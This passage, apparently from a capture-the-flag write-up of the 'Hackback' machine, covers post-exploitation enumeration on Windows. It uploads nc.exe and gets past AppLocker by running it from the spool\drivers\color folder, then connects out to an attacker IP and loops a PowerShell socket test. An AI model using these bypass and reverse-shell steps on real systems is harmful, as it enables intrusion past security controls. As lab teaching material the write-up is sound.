 First I need to figure out what kind of shell I have. It seems I have full
language mode, which is good:

    
    
    PS hackback\simple@HACKBACK Documents> $executioncontext.sessionstate.languagemode
    FullLanguage
    

#### AppLocker

It seems there is some limit on where I can execute programs. For example, if
I try to upload `nc.exe` to simple’s documents folder, it won’t execute:

    
    
    PS hackback\simple@HACKBACK Documents> UPLOAD nc64.exe nc.exe
    Uploading nc64.exe to nc.exe26932 bytes of 60360 bytes copied
    53864 bytes of 60360 bytes copied
    60360 bytes of 60360 bytes copied
    
    OK
    PS hackback\simple@HACKBACK Documents> .\nc.exe 10.10.14.14 443
    Program 'nc.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1                                                                           
    + .\nc.exe 10.10.14.14 443
    + ~~~~~~~~~~~~~~~~~~~~~~~.
    At line:1 char:1
    + .\nc.exe 10.10.14.14 443
    + ~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
        + FullyQualifiedErrorId : NativeCommandFailed
    

However, I have no issue executing it out of
`\windows\system32\spool\drivers\color`, one of my favorites [AppLocker
Bypasses](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-
AppLockerbypasses.md):

    
    
    PS hackback\simple@HACKBACK Documents> move nc.exe \windows\system32\spool\drivers\color\nc.exe
    PS hackback\simple@HACKBACK Documents> \windows\system32\spool\drivers\color\nc.exe 10.10.14.14 443
    

#### Outbound Network

I made a couple attempts to connect back to my computer, and everything
failed. Eventually, I opened up `tcpdump -i tun0 -n tcp port not 80` (with the
port 80 filter to get rid of the `reGeorge` traffic), and ran a loop in my
terminal. I didn’t bother to make it look pretty, but it was built around this
command:

    
    
    $socket = new-object System.Net.Sockets.TcpClient("10.10.14.14", 443); if($socket.Connected) { echo "out on $i"; $socket.Close()}
    Exception calling ".ctor" with "2" argument(s): "An attempt was made to access a socket in a way forbidden by its access permissions 10.10.14.14:443"
    At line:1 char:11
    + $socket = new-object System.Net.Sockets.TcpClient("10.10.14.14", 443); ...
    +           ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationException
        + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectCommand
    